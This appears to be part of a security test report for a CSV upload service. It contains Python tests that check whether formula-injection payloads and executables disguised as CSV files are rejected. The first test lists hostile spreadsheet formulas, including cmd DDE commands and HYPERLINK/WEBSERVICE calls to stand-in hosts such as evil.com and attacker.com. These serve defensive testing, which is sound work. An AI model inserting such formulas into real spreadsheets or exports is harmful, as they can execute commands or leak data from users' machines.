 **Test Implementation**:
```python
def test_csv_formula_injection_detection():
    """Test detection of CSV formula injection attacks"""
    malicious_payloads = [
        "=cmd|'/c calc'!A0",           # Windows calculator launch
        "+cmd|'/c ping google.com'!A0", # Network command execution
        "-2+3+cmd|'/c dir'!A0",        # Directory listing attempt
        "@SUM(1+1)*cmd|'/c whoami'!A0", # Identity disclosure
        "=HYPERLINK(\"http://evil.com\")", # External data exfiltration
        "=WEBSERVICE(\"http://attacker.com\")" # Web service exploitation
    ]
    
    for payload in malicious_payloads:
        malicious_csv = create_csv_with_payload(payload)
        response = upload_file(malicious_csv)
        assert response.status_code == 400  # Blocked
        assert "formula detected" in response.json()["error"].lower()
```

**Security Results**:
- ✅ **Formula Detection**: 100% detection rate for =, +, -, @ prefixed cells
- ✅ **Command Injection**: All cmd execution attempts blocked
- ✅ **Network Exploitation**: WEBSERVICE and HYPERLINK functions blocked
- ✅ **Data Exfiltration**: External URL references prevented

### 2. Executable Masquerading Detection ✅
**Attack Vector**: Executable files disguised with CSV extensions
**Protection Level**: 100% Blocked

**Test Evidence**:
```python
def test_executable_masquerading_detection():
    """Test detection of executables masquerading as CSV files"""
    # Create fake CSV file with executable content
    fake_csv_content = b'\x4d\x5a\x90\x00'  # PE header signature
    
    response = client.post("/upload", 
        files={"file": ("malicious.csv", fake_csv_content, "text/csv")})
    
    assert response.status_code == 400
    assert "invalid file format" in response.json()["error"].lower()
    
    # Test various executable types
    executable_signatures = {
        'pe_executable': b'\x4d\x5a',      # Windows PE
        'elf_executable': b'\x7f\x45\x4c\x46', # Linux ELF  
        'mach_o': b'\xfe\xed\xfa\xce',     # macOS Mach-O
        'java_class': b'\xca\xfe\xba\xbe'  # Java bytecode
    }
    
    for exe_type, signature in executable_signatures.items():
        test_binary_masquerading(signature, expected_blocked=True)
```

